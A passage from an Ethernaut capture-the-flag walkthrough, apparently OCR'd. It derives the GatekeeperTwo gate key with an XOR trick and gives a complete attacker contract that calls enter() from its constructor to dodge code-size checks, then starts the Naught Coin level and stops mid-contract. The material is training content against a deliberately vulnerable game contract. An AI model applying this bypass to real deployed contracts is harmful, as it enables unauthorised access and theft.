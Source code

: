 `_gateKey` must be derived from `msg.sender` (in `GatekeeperTwo`), which is same as `address(this)` in our `GatePassTwo`.

The `uint64(0) - 1` on RHS is max value of `uint64` integer (due to **underflow**). Hence, in hex representation: `uint64(0) - 1 = 0xffffffffffffffff`

By nature of XOR operation:
`If, X ^ Y = Z Then, Y = X ^ Z`

Using this XOR property, it can be deduced that:

```solidity
uint64(_gateKey) == uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff)
```

So, correct `key` can be calculated in solidity as:

```solidity
bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff))
```

Final update to `GatePassTwo`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatePassTwo {
    constructor(address _gateAddr) public {
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0xffffffffffffffff));
        address(_gateAddr).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```

**_Key Security Takeaways_**

- In addition to [contract blackholes](https://medium.com/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57), you can also create Zombie contracts by stopping contract initialization. The resulting contract has an address, but permanently no code, and will never be able to return you the initial **endowment**.

### Level 15. Naught Coin

**Goal**: `player` is given `totalSupply` of a ERC20 Token - Naught Coin, but cannot transact them before 10 year lockout period. `player` has to get its token balance to 0.

Given Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player)
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
```